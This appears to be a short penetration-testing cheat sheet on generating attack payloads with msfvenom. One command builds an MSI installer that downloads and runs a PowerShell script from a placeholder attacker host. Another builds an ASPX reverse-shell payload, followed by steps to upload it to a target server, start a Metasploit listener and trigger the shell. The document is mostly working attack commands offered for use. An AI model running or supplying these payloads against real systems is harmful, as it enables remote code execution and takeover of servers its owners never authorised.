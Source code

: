 # Generating Attack Payload

## MSI Reverse Shell for [Covenant](https://github.com/cobbr/Covenant)

    msfvenom -p windows/x64/exec CMD="cmd /c powershell iex(new-object net.webclient).downloadstring('http://<Attacker_IP>/shell.ps1')" -f msi > pwn.msi

## ASPX Reverse Shell

1. Generate payload

        msfvenom -p windows/shell/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx -o pwn.aspx    

2. Upload the payload to the target server
3. Start a listener. Use Metasploit `exploit/multi/handler/` module with payload set to `windows/shell/reverse_tcp`
4. Naviagate to malicious ASPX page in the browser window to trigger the payload and to receive the reverse shell

## References

* https://pentestlab.blog/tag/msi/
* https://blog.netspi.com/bypassing-anti-virus-with-metasploit-msi-files/